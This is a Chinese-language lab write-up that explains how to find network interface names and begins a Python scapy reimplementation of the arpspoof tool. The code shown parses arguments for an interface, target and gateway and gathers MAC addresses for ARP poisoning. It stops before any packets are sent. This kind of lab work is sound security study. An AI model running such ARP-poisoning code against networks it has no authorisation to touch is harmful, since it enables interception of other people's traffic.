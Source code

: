 Windows系统如何获取网卡名称：控制面板->网络和 Internet->网络连接;
![win](https://github.com/DBullet/UCore/blob/master/lab5/boot/win.png)

图中圈出来的长字符串就是Windows系统无线网卡的名称，其他网卡的名称获取方法类似。
Linux系统下通过`ifconfig`命令输出的段落标题就是本地各个网卡的名称，通常比较简短。Windows系统下的`ipconfig`命令并不能显示出可用的网卡名称。

通过直接使用arpspoof可以完成本阶段的实验，但这里通过python的scapy包来简单地模拟实现arpspoof。arpspoof源代码可以参考这篇[arpsoof源码分析](https://blog.csdn.net/rectsuly/article/details/63261412?locationNum=5&fps=1)

scapy相关资料：
文档地址：[http://www.secdev.org/projects/scapy/doc/](http://www.secdev.org/projects/scapy/doc/)
中文版教程：[https://github.com/Larryxi/Scapy_zh-cn](https://github.com/Larryxi/Scapy_zh-cn)

实现的源代码如下：./codes/arp.py
```python
from optparse import OptionParser
from scapy.all import get_if_hwaddr, getmacbyip, ARP, Ether, sendp
import sys
import time
def parse_arguments():
    usage = 'Usage: %prog [-i interface] [-t target] host'
    parser = OptionParser(usage)
    parser.add_option('-i', dest='interface', help='Specify the interface to use')
    parser.add_option('-t', dest='target', help='Specify a particular host to ARP poison')
    (options, args) = parser.parse_args()
    if options.interface and options.target and len(args):
        arp_poison(options.interface, options.target, args[0])
    else:
        parser.print_help()
        sys.exit(0)

def arp_poison(interface, target, gateway):
    local_mac = get_if_hwaddr(interface)
    target_mac = getmacbyip(target)
    gateway_mac = getmacbyip(gateway)
```